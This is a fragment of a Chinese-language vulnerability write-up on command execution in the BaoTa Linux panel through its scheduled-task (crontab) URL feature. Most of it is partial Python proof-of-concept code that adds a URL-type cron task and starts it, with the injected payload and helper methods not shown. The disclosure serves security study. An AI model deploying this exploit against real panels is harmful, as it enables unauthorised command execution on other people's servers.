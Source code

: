   
这样便可以做到访问url的同时，执行
```
ifconfig
```

  
命令  
  
POC代码  

```
import hashlib
import json
import time

import requests


class bt_panel:

    def __init__(self, bt_panel=None, bt_key=None):
       self.__BT_PANEL = 'http://xxx.xxx.xxx.xxx:8888'
       self.__BT_KEY = 'key'
       if bt_panel:
          self.__BT_PANEL = bt_panel
          self.__BT_KEY = bt_key

       # 添加计划任务

    def add_crontab(self, request_url):
       # 拼接URL地址
       url = self.__BT_PANEL + '/crontab?action=AddCrontab'

       # 准备POST数据
       p_data = self.__get_key_data()  # 取签名
       p_data['name'] = '测试宝塔Linux面板任意命令执行'
       p_data['type'] = 'week'
       p_data['where1'] = ''
       p_data['hour'] = 1
       p_data['minute'] = 30
       p_data['week'] = 1
       p_data['sType'] = 'toUrl'
       p_data['sBody'] = ''
       p_data['sName'] = ''
       p_data['backupTo'] = ''
       p_data['save'] = ''
       p_data['urladdress'] = request_url
       p_data['save_local'] = 1
       p_data['notice'] = ''
       p_data['notice_channel'] = ''
       p_data['datab_name'] = ''
       p_data['tables_name'] = ''

       result = self.__http_post_cookie(url, p_data)
       return json.loads(result)

    def start_crontab(self, id):
       url = self.__BT_PANEL + '/crontab?action=StartTask'

       p_data = self.__get_key_data()
       p_data['id'] = id

       result = self.__http_post_cookie(url, p_data)
       return json.loads(result)

```